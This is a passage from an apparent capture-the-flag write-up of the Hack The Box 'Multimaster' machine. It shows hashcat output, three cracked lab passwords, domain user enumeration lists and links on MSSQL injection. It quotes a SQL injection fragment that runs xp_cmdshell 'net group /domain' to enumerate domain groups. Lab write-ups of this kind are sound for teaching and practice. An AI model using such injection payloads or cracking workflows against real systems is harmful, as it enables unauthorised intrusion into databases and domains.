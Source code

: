 ```text
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: $HEX[21217265626f756e642121] -> $HEX[042a0337c2a156616d6f732103]

Started: Mon Jul 20 19:17:26 2020
Stopped: Mon Jul 20 19:17:57 2020
```

Hashcat was able to crack 3 out of 4 of the hashes

```text
zweilos@kalimaa:~/htb/multimaster$ cat hash.cracked 
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
```

Just because the usernames I got were in the database does not mean they can login to this machine. Maybe need to enumerate users from the the domain in another way since ldap and rpc were not helpful [https://kalilinuxtutorials.com/mssql-injection](https://kalilinuxtutorials.com/mssql-injection) [https://github.com/Keramas/mssqli-duet](https://github.com/Keramas/mssqli-duet) [https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)

[https://www.sqlservercentral.com/forums/topic/how-to-retrieve-active-directory-user-information-through-sql-server\`](https://www.sqlservercentral.com/forums/topic/how-to-retrieve-active-directory-user-information-through-sql-server`)' -- exec xp\_cmdshell 'net group /domain'\` returns same list as earlier user enumeration

```text
USERS list
james
dai
tushikikatomo
zac
lana
andrew
jorden
alyx
cyork
rmartin
DnsAdmins
DnsUpdateProxy
svc-nas
svc-sql
ckane
kpage
ilee
nPourne
```

from enum4linux
